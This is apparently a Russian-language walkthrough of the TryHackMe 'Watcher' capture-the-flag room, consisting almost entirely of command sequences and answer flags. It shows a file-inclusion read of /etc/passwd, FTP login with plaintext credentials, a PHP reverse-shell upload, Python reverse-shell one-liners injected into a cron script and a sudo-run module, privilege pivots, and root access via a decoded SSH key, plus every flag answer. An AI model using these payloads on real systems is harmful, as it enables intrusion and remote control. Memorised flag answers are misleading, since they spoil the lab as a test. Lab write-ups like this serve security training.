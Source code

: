 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Watcher](https://tryhackme.com/r/room/watcher) 

Всего 1 заданиe:
## Задание 1
Пройдите весь путь через машину и попытайтесь найти все флаги, которые сможете!

Сделано  @rushisec

### Ответьте на вопросы ниже
Флаг 1
```commandline
nmap -sSCV <IP>
curl -s http://<IP>/robots.txt
curl -s http://<IP>/flag_1.txt
```
```commandline
FLAG{robots_dot_text_what_is_next}
```
Флаг 2
```commandline
curl -s http://<IP>/secret_file_do_not_read.txt
curl -s http://<IP>/post.php?post=/etc/passwd
curl -s http://<IP>/post.php?post=secret_file_do_not_read.txt
ftp <IP>
ftpuser:givemefiles777
ls -la
get flag_2.txt -
```
```commandline
FLAG{ftp_you_and_me}
```
Флаг 3
```commandline
ftp <IP>
ftpuser:givemefiles777
cd files
ls -la
put rev.php
ls -la
pwd
exit
curl -s http://<IP>/post.php?post=/home/ftpuser/ftp/files/rev.php
nc -nlvp 4444
python3 -c "import pty;pty.spawn('/bin/bash')"
id
find / -type f -name flag_3.txt 2>/dev/null
cat /var/www/html/more_secrets_a9f10a/flag_3.txt
```
```commandline
FLAG{lfi_what_a_guy}
```
Флаг 4
```commandline
find / -type f -name flag_4.txt -exec ls -l {} + 2>/dev/null
sudo -l
sudo -u toby /bin/bash
cat /home/toby/flag_4.txt
```
```commandline
FLAG{chad_lifestyle}
```
Флаг 5
```commandline
find / -type f -name flag_5.txt -exec ls -l {} + 2>/dev/null
cat note.txt
cat /etc/crontab
ls -l /home/toby/jobs/cow.sh

cat > /home/toby/jobs/cow.sh << EOF
#!/bin/bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
EOF

nc -nlvp 4444
python3 -c "import pty;pty.spawn('/bin/bash')"
cd /home/mat
cat flag_5.txt
```
```commandline
FLAG{live_by_the_cow_die_by_the_cow}
```
Флаг 6
```commandline
find / -type f -name flag_6.txt -exec ls -l {} + 2>/dev/null
cat /home/mat/note.txt
sudo -l
cat /home/mat/scripts/will_script.py
cat cmd.py

vim cmd.py
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<IP>",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
def get_command(num):
    if(num == "1"):
        return "ls -lah"
    if(num == "2"):
        return "id"
    if(num == "3"):
        return "cat /etc/passwd"
       
sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1 
nc -nlvp 5555
python3 -c "import pty;pty.spawn('/bin/bash')"
id
cd /home/will
cat flag_6.txt
```
```commandline
FLAG{but_i_thought_my_script_was_secure}
```
Флаг 7
```commandline
find / -type f -name flag_7.txt -exec ls -l {} + 2>/dev/null
id
find / -type f -group adm -exec ls -l {} + 2>/dev/null
cat /opt/backups/key.b64 | base64 -d > /home/will/ssh.key
chmod 600 ssh.key 
ssh -i ssh.key root@<IP>
cd root
cat flag_7.txt
```
```commandline
FLAG{who_watches_the_watchers}
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)